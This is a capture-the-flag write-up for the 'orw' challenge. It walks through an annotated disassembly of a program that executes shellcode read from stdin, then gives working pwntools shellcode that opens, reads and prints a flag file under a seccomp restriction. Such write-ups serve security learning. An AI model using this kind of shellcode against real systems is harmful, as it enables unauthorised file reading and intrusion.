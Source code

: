 # orw

Let's analyze the main
```
0x08048548 <+0>:     lea    ecx,[esp+0x4]           // First argumnet
0x0804854c <+4>:     and    esp,0xfffffff0
0x0804854f <+7>:     push   DWORD PTR [ecx-0x4]     // Push first argument
0x08048552 <+10>:    push   ebp
0x08048553 <+11>:    mov    ebp,esp
0x08048555 <+13>:    push   ecx
0x08048556 <+14>:    sub    esp,0x4
0x08048559 <+17>:    call   0x80484cb <orw_seccomp> // Call to this function with first argumnet
0x0804855e <+22>:    sub    esp,0xc                 // The function sets current thread settings
0x08048561 <+25>:    push   0x80486a0               // "Give me your shellcode::"
0x08048566 <+30>:    call   0x8048380 <printf@plt>  // Print prompt
0x0804856b <+35>:    add    esp,0x10
0x0804856e <+38>:    sub    esp,0x4
0x08048571 <+41>:    push   0xc8
0x08048576 <+46>:    push   0x804a060               // Shell code pointer
0x0804857b <+51>:    push   0x0
0x0804857d <+53>:    call   0x8048370 <read@plt>    // Read stdin and save in shell code pointer
0x08048582 <+58>:    add    esp,0x10
0x08048585 <+61>:    mov    eax,0x804a060           // Move shell code to eax
0x0804858a <+66>:    call   eax                     // Call eax
0x0804858c <+68>:    mov    eax,0x0                 // Cleanup
0x08048591 <+73>:    mov    ecx,DWORD PTR [ebp-0x4]
0x08048594 <+76>:    leave
0x08048595 <+77>:    lea    esp,[ecx-0x4]
0x08048598 <+80>:    ret

```

The program reads a char buffer from stdin and calls it as a function. We need to
pass the shell code, as the prompt suggests. I tries with a defaut shellcode but
It didn't work (remember to set the right context on python).
The challenge states that I can only use `read`, `oepn` and `write`, so I need
to create an assembly function that opend the flag, reads it and writes it to stdout:

```python
shell_code = asm('\n'.join([
# Open file
'push %d' % u32('ag\0\0'),
'push %d' % u32('w/fl'),
'push %d' % u32('e/or'),
'push %d' % u32('/hom'), # Flag path
'mov edx, 0',   # Mode
'mov ecx, 0',   # Open syscall flag
'mov ebx, esp', # Buffer
'mov eax, 5',   # Open syscall number
'int 0x80',

# Read file
'mov edx, 128', # Count
'mov ecx, esp', # Buffer
'mov ebx, eax', # fd
'mov eax, 3',   # Read syscall number
'int 0x80',

# Frite to stdout
'mov edx, eax', # Count
'mov ecx, esp', # Buffer
'mov ebx, 1',   # fd
'mov eax, 4',   # Write syscall number
'int 0x80',
]))

target.sendafter(b":", shell_code)
```

And that's it! I needed to look this up on a writeup because I couldn't write
my own function. I tried compiling a C file with the output was overcomplicated,
to solve this challenge I should have read the linux calls manual and filled
the registers.
